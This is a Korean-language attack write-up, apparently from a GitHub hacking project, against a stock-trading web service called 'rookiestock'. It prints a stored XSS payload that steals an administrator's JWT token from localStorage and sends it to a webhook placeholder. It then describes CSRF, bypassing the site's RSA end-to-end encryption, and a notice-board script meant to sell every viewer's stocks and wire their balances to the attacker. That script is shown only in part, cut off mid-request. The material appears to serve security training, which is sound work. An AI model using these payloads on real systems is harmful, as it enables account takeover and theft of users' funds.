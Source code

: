 | 입력 구문 |
|---------|
| `<script>let token = window.localStorage.getItem(“SKJWTToken”); let url = “[webhook site url]” try{token=Android.getToken();}catch{}fetch(url+”?name=SKJWTToken&token=”+token);</script>` |

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/8bd89b09-b393-4bda-b2ca-e0419c48f3b3">

- 관리자가 문의게시판에서 문의 글 확인 시 관리자의 JWT Token을 탈취하여 해커서버로 전송 한다.

> <img width="456" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/50bfbfb3-aeed-40e2-995f-5d7ef2b9f27d">
> <img width="455" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/46c37686-1132-4329-95a4-2225f6179128">
> <img width="455" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/a71e1536-9f6e-4720-afd1-c8a6b379a3fa">
> <img width="455" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/e607b7cc-27e1-4a4a-a452-2ff336ddda86">
> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/40d310f1-ae2b-4964-868e-248cb2a4bd17">

- 탈취한 관리자 계정을 이용하여 문의게시판에 접근한다.

### 2차 정보 수집

- 공지사항 게시판에서 CSRF 취약점이 있는 것을 확인한다. 공지사항 페이지에서 공지사항 글쓰기 폼을 가져와서 글 내용에 포함시켜서 글을 작성해 보면 글쓰기 폼이 작성되는 것을 확인할 수 있다.

> <img width="456" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/abd4367e-bb3a-41be-992d-6ed0fe6f1100">

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/f226fc77-928f-4715-bdb4-62ef01a67b41">

- 마이페이지에서 송금할 때를 Burp로 잡아서 E2E 암호화에 RSA 키가 필요한 것을 확인한다.

> <img width="456" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/78dc3150-3af6-4a52-9c04-479e054888cb">

- 이를 바탕으로 글을 확인한 사용자의 RSA 키와 보유 주식 수, 계좌 잔액을 가져오는 스크립트 작성한다.

### E2E 우회

- 글을 확인한 사용자의 RSA 키와 보유 주식 수까지 확인할 수 있는 스크립트와 계좌 잔액을 확인할 수 있는 스크립트를 작성하면 확인이 가능하다.

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/7b189253-4adb-477e-b765-bedf6482f418">

### 최종 공격 수행

- 공지사항을 통해 공지사항 글을 확인한 모든 사용자의 보유 주식을 판매하고 계좌의 잔액을 전부 해커에게 송금하는 스크립트를 작성한 후 공지사항을 게시한다.


```
<script src="/js/jquery.min.js"></script>
<script src="/js/rsa/jsbn.js"></script>
<script src="/js/rsa/prng4.js"></script>
<script src="/js/rsa/rng.js"></script>
<script src="/js/rsa/rsa.js"></script>
 
<script>
    async function getStock() {
        const stockCode_list = ['AAPL', 'AMZN', 'FB', 'GOOGL', 'MSFT'];
        const stockName_list = ['Apple', 'Amazon.com', 'Meta', 'Alphabet', 'Microsoft'];
 
        for (let i = 0; i < stockCode_list.length; i++) {
            const stockCode = stockCode_list[i];
            const stockName = stockName_list[i];
            try {
                const response = await fetch(`https://www.rookiestock.com/detailstock?stockCode=${stockCode}&stockName=${stockName}`, {
                    method: 'GET',
                    headers: {
                        'Accept': 'text/plain'
```